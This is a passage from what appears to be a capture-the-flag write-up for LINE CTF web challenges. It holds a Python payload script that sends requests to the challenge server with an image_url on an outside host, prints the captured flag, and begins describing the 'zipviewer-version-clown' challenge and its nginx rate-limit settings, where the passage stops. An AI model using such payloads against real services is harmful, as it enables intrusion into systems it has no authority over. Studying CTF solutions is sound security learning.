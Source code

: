 Payload code:
```python
import requests
import time

t = requests.get("http://35.200.21.52:80/trial")
id = t.json()['url'].split('/')[-1]

t = requests.get("http://35.200.21.52:80/"+id)

time.sleep(10)

burp0_url = "http://35.200.21.52:80/"
burp0_data = {"image_url": "http://rasp.go.ro:4444/a.png", "id": id, "password": "kek"}
r = requests.post(burp0_url, data=burp0_data)

burp0_data = {"password": "kek"}
r = requests.post(burp0_url+id, data=burp0_data)

print(r.text)
```

**LINECTF{db3b30d05eb5e625a50a3925a35810f2}**

<a name="zipviewer-version-clown"></a>
## zipviewer-version-clown (149 pts, 41 solves) - Web

Description:
```
Read the flag (/flag)

http://35.243.120.91:11001/
```

Same as `zipviewer-version-citizen`, but this time the server has some stricter rate-limiting measures on /upload and /download:
```
		location /upload {
            proxy_pass http://webapp;

			limit_req zone=updown_limit burst=3;
			limit_req_status 429;
            limit_req_log_level error;

            access_log /var/log/nginx/access.log combined;

            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }

		location /download {
            proxy_pass http://webapp;

			limit_req zone=updown_limit burst=3;
			limit_req_status 429;
            limit_req_log_level error;

            access_log /var/log/nginx/access.log combined;

            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
```